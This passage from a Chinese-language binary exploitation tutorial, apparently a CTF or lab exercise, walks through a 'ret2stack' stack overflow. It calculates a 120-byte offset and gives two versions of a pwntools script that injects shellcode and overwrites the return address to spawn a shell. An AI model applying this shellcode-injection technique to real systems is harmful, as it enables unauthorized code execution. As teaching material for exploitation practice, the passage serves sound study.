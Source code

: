 2. 查看当前栈信息

   > <img src="./img/48.png">

3. 计算溢出长度

   根据上图中可以看出，`rsp`是输入的内容地址，`rbp + 008`是函数返回地址，因此需要溢出的长度为`0x70 + 0x8`，共120字节

4. 构造攻击脚本

   ```py
   from pwn import *
   
   context.arch = 'amd64'
   shell = 0x7fffffffdcd0
   shellcode = asm(shellcraft.amd64.sh())
   
   payload = shellcode.ljust(120, b'A') + p64(shell)
   
   io = process('./ret2stack')
   
   io.sendline(payload)
   io.interactive()
   ```

   实际上，这个攻击脚本并不一定能执行成功，因为`pwndbg`的内存地址不一定是真实地址，我们将`ret2stack.c`中添加打印语句，并查看真实地址

5. 查看真实地址

   > <img src="./img/49.png">

   因此可以肯定，这道题中，地址不能使用`pwndbg`显示的地址，我们需要更改攻击脚本

6. 更改攻击脚本的`shell`地址

   ```py
   from pwn import *
   
   context.arch = 'amd64'
   shell = 0x7fffffffdd10
   shellcode = asm(shellcraft.amd64.sh())
   
   payload = shellcode.ljust(120, b'A') + p64(shell)
   
   io = process('./ret2stack')
   
   io.sendline(payload)
   io.interactive()
   ```
